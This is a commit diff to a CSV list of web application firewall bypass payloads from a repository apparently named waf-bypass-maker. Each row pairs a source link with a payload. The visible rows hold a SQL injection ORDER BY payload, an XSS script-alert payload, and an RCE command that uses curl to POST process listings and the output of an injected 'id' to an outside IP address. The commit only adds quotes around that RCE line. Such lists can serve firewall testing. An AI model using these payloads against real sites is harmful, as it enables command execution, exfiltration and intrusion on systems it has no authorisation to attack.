

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in ….

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -488,3 +488,3 @@ https://twitter.com/TheMsterDoctor1/status/1743187595163501005,&lt;dETAILS%0aope
 https://vulners.com/github/GHSA-H374-MM57-879C?utm_source=rss&utm_medium=rss&utm_campaign=rss,(CASE+WHEN+(SELECT+1)=1+THEN+id+ELSE+updated_at+END)+ASC+,sqli
-https://vulners.com/cve/CVE-2023-50094?utm_source=rss&utm_medium=rss&utm_campaign=rss,curl%20-X%20POST%20--data%20"$(ps%20-aux)"%20192.168.1.91/?`id`,rce
+https://vulners.com/cve/CVE-2023-50094?utm_source=rss&utm_medium=rss&utm_campaign=rss,'curl%20-X%20POST%20--data%20"$(ps%20-aux)"%20192.168.1.91/?`id`',rce
 https://twitter.com/g1nk00/status/1735407588529913969,"&amp;#60;script&amp;#62;alert(1)&amp;#60;/script&amp;#62;",xss
```
